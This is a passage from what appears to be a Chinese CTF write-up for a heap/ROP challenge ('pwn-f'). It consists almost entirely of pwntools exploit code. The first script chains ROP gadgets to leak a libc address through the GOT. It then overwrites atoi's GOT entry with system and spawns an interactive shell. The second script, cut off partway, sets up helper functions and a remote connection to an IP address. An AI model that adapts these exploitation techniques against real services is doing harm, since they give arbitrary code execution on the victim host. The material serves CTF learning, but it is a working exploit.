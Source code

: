```
ropchain = p64(addr + 0x00000000000011e3)   # pop rdi
ropchain += p64(addr + 0x202070)            # got@malloc
ropchain += p64(addr + 0x0000000000000990)  # plt@put

ropchain += p64(addr + 0x00000000000011e3)  # pop rdi
ropchain += p64(1)
ropchain += p64(addr + 0x00000000000011DA)  # magic
ropchain += p64(0)                          # rbx
ropchain += p64(1)                          # rbp
ropchain += p64(addr + 0x0000000000202058)  # r12 -> rip got@read
ropchain += p64(8)                          # r13 -> rdx
ropchain += p64(addr + 0x0000000000202078)  # r14 -> rsi got@atoi
ropchain += p64(0)                          # r15 -> rdi
ropchain += p64(addr + 0x00000000000011C0)  # magic
ropchain += 'a'*8*7

ropchain += p64(addr + 0x0000000000000B65)  # getInt

target.sendline('yes     ' + ropchain)
addr = target.recvline()[:-1]
addr = u64(addr + '\x00' * (8 - len(addr)))
#addr = addr - 534112 + 288144
addr = addr - 537984 + 283536
print hex(addr)
target.sendline(p64(addr)+'/bin/sh')
target.interactive()
```

另外一种方法，更简单，[参考链接](https://cartermgj.github.io/2016/12/01/Hctf-jiushigan/)

```
from pwn import *

context.log_level = 'debug'
global io
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./pwn-f')

def create_list(io,length,strr):
	io.recvuntil('quit')
	io.sendline('create ')
	io.recvuntil('Pls give string size:')
	io.sendline(length)
	io.recvuntil('str:')
	io.sendline(strr)

def delete_list(io,number):
	io.recvuntil('quit')
	io.sendline('delete ')
	io.recvuntil('id:')
	io.sendline(number)
	io.recvuntil('Are you sure?:')
	io.sendline('yes')


def pwn():
	global io

	debug = 1
	if debug:
   	 	io = process('./pwn-f')
	else:
		#io = remote('127.0.0.1',2333)
		io = remote('115.28.78.54',80)
```
